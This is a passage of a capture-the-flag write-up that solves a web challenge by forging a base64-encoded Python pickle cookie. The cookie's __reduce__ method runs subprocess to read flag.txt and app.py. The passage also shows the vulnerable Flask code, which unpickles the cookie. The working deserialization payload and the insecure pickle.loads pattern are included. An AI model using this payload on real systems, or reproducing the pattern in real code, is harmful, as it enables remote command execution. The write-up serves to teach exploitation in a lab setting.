 Let's take that cookie, put it into chrome, and reload the page...

<img class="center" src="/ta/img/airgap-2020/gerkinz_ls.png" />

Nice! Now let's cat flag.txt and app.py.

```python
import pickle, base64

class MyType:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', 'flag.txt', 'app.py'],))

p = pickle.dumps(dict(name=MyType(), lastlogin='2020-05-05T07:03:35.022184'))
print(base64.b64encode(p).decode('ASCII'))
# => gAN9c.....
```

<img class="center" src="/ta/img/airgap-2020/gerkinz_popped.png" />

<h1>🏴 Flag captured 🎉</h1>
We can also go ahead, copy the page source and make it a bit prettier so we can see the vulnerable implementation (some portions removed for brevity)...

```python
#!/usr/bin/env python

from flask import Flask, redirect, request, make_response
from datetime import datetime
import pickle
from base64 import urlsafe_b64encode as b64enc, urlsafe_b64decode as b64dec

app = Flask(__name__)

@app.route('/')
def index():
    name = "guest"
    userdata = request.cookies.get('user') or None
    if userdata:
        try:
            userdata = b64dec(userdata)
            userdata = pickle.loads(userdata)
            name = userdata['name']
        except:
          raise
    # ....

# ....
```

Our line of interest is `userdata = pickle.loads(userdata)`. Here, our payload is being unpickled and is what allows us to pop the flag. A nice and breezy 200 points.
